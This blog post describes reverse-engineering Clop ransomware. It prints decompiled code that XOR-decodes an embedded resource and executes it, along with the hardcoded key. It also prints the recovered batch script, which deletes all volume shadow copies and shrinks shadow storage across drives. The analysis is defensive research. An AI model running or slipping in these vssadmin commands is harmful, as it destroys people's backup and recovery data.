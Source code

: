 +++
title = "Deobfuscating Clop ransomware resources"
description = "A deobfuscator tool for extracted resources from Clop ransomware"
tags = [
    "ransomware",
    "clop",
    "reverse-engineering"
]
date = "2019-03-31"
categories = [
    "Malware",
    "Reverse Engineering",
]
author = "Dan"
summary = true 
+++

[A colleague](https://github.com/digitalcroqueta) and I reverse-engineered the Clop ransomware binary, and observed that it contained two obfuscated resources:

* SIXSIX
* SIXSIX1

One of them is just the README file that the malware drops all over the disk, so nothing too exciting, but the other is a batch script that deletes the volume shadow copies. Granted, you could just debug it and get it to drop these files, but as a personal challenge I decided to write a deobfuscator based on my analysis of the decompiled code (I looked at it in both Ghidra and IDA Pro, the latter of which was much more helpful in this case). After spending a bit of time labeling each variable/function, this is the relevant decompiled section of code:

```
HINSTANCE LoadExecuteClearSystemsBatchFile()
{
  HMODULE hModule; // eax
  HMODULE phModule; // ebx
  HRSRC hRsrcSIXSIX1; // eax
  HRSRC phRsrcSIXSIX1; // esi
  HGLOBAL hGlobalRsrcSIXSIX1; // eax
  const void *ResourceLock; // edi
  DWORD cbResourceSIXSIX1; // esi
  HGLOBAL hDecryptedResourceMemory; // ebx
  DWORD pcbResourceSIXSIX1; // edi
  DWORD i; // esi
  HANDLE hDecryptedFile; // esi
  DWORD NumberOfBytesWritten; // [esp+Ch] [ebp-214h]
  DWORD nNumberOfBytesToWrite; // [esp+10h] [ebp-210h]
  CHAR currentPath; // [esp+14h] [ebp-20Ch]
  CHAR FileName; // [esp+118h] [ebp-108h]

  hModule = GetModuleHandleW(0);
  phModule = hModule;
  hRsrcSIXSIX1 = FindResourceW(hModule, (LPCWSTR)0xF447, L"SIXSIX1");
  phRsrcSIXSIX1 = hRsrcSIXSIX1;
  hGlobalRsrcSIXSIX1 = LoadResource(phModule, hRsrcSIXSIX1);
  ResourceLock = LockResource(hGlobalRsrcSIXSIX1);
  cbResourceSIXSIX1 = SizeofResource(phModule, phRsrcSIXSIX1);
  nNumberOfBytesToWrite = cbResourceSIXSIX1;
  hDecryptedResourceMemory = GlobalAlloc(GMEM_ZEROINIT, cbResourceSIXSIX1);
  memmove(hDecryptedResourceMemory, ResourceLock, cbResourceSIXSIX1);
  pcbResourceSIXSIX1 = cbResourceSIXSIX1;
  for ( i = 0; i < pcbResourceSIXSIX1; ++i )
    *((_BYTE *)hDecryptedResourceMemory + i) ^= charArrMagicStr[i % 0x42];
  GetCurrentDirectoryA(260u, &currentPath);
  wsprintfA(&FileName, "%s\\clearsystems-10-1.bat", &currentPath);
  NumberOfBytesWritten = 0;
  hDecryptedFile = CreateFileA(&FileName, 0x40000000u, 2u, 0, 4u, 0x80u, 0);
  if ( hDecryptedFile != (HANDLE)-1 )
  {
    WriteFile(hDecryptedFile, hDecryptedResourceMemory, pcbResourceSIXSIX1, &NumberOfBytesWritten, 0);
    CloseHandle(hDecryptedFile);
  }
  GlobalFree(hDecryptedResourceMemory);
  return ShellExecuteA(0, "open", &FileName, 0, 0, 0);
}
```

Beginning with this decompiled code, I quickly whipped up [a deobfuscator in C++](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp), basically mimicking the decompiled code (with a couple minor shortcuts), which [I've made available on GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp) Shortly thereafter, I decided to write [a Python 3 version](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py) that is much shorter (and cross-platform compatible), which is [now also on my GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py)

The ransomware has a harcoded "magic" string that it uses to deobfuscate the resources:

```
CHAR clopDecodeResourceSIXSIX1_MagicString[] = "Clopfdwsjkjr23LKhuifdhwui73826ygGKUJFHGdwsieflkdsj324765tZPKQWLjwNVBFHewiuhryui32JKG";
```

From there it iterates over each byte in the file and XORs it by itself and the modulus (remainder) of the current byte offset and `0x42` (decimal value `66`) as an offset/subscript into the magic string:

```
*((BYTE *)hResourceMemory + i) ^= clopDecodeResourceSIXSIX1_MagicString[i % 66];
```

And here's our prize:

```
@echo off
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
```

That's really all there is to it. The rest of the code is mostly just memory management and writing the deobfuscated data to a file.

